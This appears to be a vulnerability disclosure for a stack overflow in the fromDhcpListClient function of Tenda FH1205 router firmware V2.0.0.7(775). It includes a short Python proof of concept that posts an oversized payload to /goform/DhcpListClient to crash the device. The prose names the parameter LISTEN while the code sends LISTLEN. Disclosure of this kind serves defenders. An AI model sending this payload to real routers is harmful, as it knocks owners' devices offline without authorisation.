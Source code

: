 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2236.html

## Affected version

FH1205 V2.0.0.7(775) 

## Vulnerability details

The Tenda FH1205 V2.0.0.7(775) firmware has a stack overflow vulnerability in the `fromDhcpListClient` function. We can set `LISTEN=1` and the program will enter line 30 and 33, which leads to a stack overflow vulnerability. Since the overflow overrides the `LISTEN` pointer variable, the `atoi` function will crash the program, causing a DOS attack in the second time looping.

![image-20240320012458952](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012458952.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DhcpListClient"
payload = b"a"*2000

data = {"LISTLEN":1,"page":1,"list1": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320104751834](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320104751834.png)
